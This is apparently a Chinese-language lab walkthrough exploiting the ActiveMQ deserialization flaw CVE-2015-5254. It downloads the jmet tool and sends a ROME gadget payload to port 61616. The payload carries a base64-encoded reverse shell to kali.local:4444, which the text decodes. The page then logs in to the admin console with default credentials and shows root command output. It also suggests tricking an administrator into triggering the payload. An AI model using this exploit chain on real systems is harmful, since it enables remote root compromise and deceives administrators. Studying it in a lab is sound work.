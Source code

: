 ```shell
┌──(root㉿kali)-[~]
└─# mkdir -p /root/jmet/external && proxychains4 wget -P /root/jmet https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
```

发送 payload

```shell
┌──(root㉿kali)-[~]
└─# cd /root/jmet && java -jar /root/jmet/jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9rYWxpLmxvY2FsLzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" -Yp ROME centos.local 61616
```

> webshell 为 bash -i >& /dev/tcp/kali.local/4444 0>&1 使用了 base64 编码

查看这个队列中所有消息

> http://debian:8161/admin/browse.jsp?JMSDestination=event
>
> 用户名：    admin
>
> 密码：	admin
>

![查看这个队列中所有消息](./../../../../../images/vulhub/activemq/ActiveMQ%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2015-5254%EF%BC%89/%E6%9F%A5%E7%9C%8B%E8%BF%99%E4%B8%AA%E9%98%9F%E5%88%97%E4%B8%AD%E6%89%80%E6%9C%89%E6%B6%88%E6%81%AF.png)

> 点击查看这条消息即可触发命令执行

验证

```shell
root@8c423b972802:/opt/apache-activemq-5.11.1# id
id
uid=0(root) gid=0(root) groups=0(root)
```

> 值得注意的是，通过 web 管理页面访问消息并触发漏洞这个过程需要管理员权限
>
> 在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发
